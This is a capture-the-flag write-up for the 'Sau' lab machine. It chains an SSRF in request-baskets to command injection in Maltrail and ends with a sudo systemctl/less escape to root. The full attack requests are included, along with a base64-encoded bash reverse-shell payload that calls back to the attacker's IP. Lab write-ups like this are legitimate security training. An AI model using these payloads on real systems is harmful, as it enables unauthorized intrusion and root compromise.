 # Sau

## Enumeration

### Nmap

{% code fullWidth="false" %}
```
# Nmap 7.94 scan initiated Wed Sep 27 12:50:55 2023 as: nmap -p22,80,8338,55555 -A -oA nmap/fullscan 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.044s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 27 Sep 2023 16:51:17 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 27 Sep 2023 16:50:52 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 27 Sep 2023 16:50:53 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=9/27%Time=65145D76%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2027\x20Sep\x20
SF:2023\x2016:50:52\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2027\x20Sep\x20
SF:2023\x2016:50:53\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Wed,\x2027\x20Sep\x202023\x2016:51:17\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 55555/tcp)
HOP RTT      ADDRESS
1   43.27 ms 10.10.14.1
2   43.48 ms 10.10.11.224

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 27 12:52:30 2023 -- 1 IP address (1 host up) scanned in 95.81 seconds

```
{% endcode %}

### WebServer

<figure><img src="../../.gitbook/assets/Pasted image 20230927193555 (1).png" alt=""><figcaption></figcaption></figure>

Webiste footer reveal that website is powered by `request-basket` in version `1.2.1` This version is vulnerable to SSRF - Server Side Request Forgery vulnerability that allows attacker to force server to send request to other resources, in this scenario it could be possible to access whats on port `80` as this port isn't accessible from the outside - nmap showed it as `filtered` state. This is valuable because some services may run or may be accessible only from localhost or from local network, so attacker that exploit SSRF vulnerability can access this "unaccessible" services.&#x20;

{% embed url="https://github.com/entr0pie/CVE-2023-27163/tree/main" %}

#### SSRF

This reqeust create new `basket` for catching requests, with some additional settings:

* `forward_url` will forward all requests to this url
* `proxy_response` will show response returned from `forward_url`

```HTTP
POST /api/baskets/soviet4 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 122


{
"forward_url":"http://127.0.0.1:80/login",
"proxy_response":true,
"insecure_tls":false,
"expand_path":false,
"capacity":200
}
```

Response with `Authorization` token for accessing data from API.

```HTTP
HTTP/1.1 201 Created
Content-Type: application/json; charset=UTF-8
Date: Wed, 27 Sep 2023 17:24:27 GMT
Content-Length: 56
Connection: close

{"token":"CkWWvwyJycJFadgUearLJTdTrii-Wvaa_v7NkVtUqaYY"}
```

After accessing `http://10.10.11.224:55555/soviet4` Maltrail in version 0.53 is revealed&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230927195536 (1).png" alt=""><figcaption></figcaption></figure>

This also have PoC exploit available on github it is unauthenticated `RCE` Remote Code Execution&#x20;

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

## Reverse Shell

So this allows to chain both `SSRF` with `RCE` to gain reverse shell on the machine.

This request is used to send `POST` request to internal `Maltrail` in `username` parameter there is encoded payload which should execute on target machine and establish connection with my machine

```
username=;`echo+YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk2LzkwMDEgMD4mMSAK|base64+-d|bash`
```

```HTTP
POST /soviet4 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 92

username=;`echo+YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk2LzkwMDEgMD4mMSAK|base64+-d|bash`
```

<figure><img src="../../.gitbook/assets/Pasted image 20230927200103 (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### NOPASSWD SUDO

User `puma` can run `systemctl status` without password this allows to gain `root` shell&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230927200307 (1).png" alt=""><figcaption></figcaption></figure>

This is possible because `systemctl status` invoke `less` binary that allows to execute shell commands if prefixed by `!` sign so `!bash` will spawn root bash shell&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230927200616 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/e32fa1da35a312b9c8f2e13f04cedf6a.gif" alt=""><figcaption></figcaption></figure>
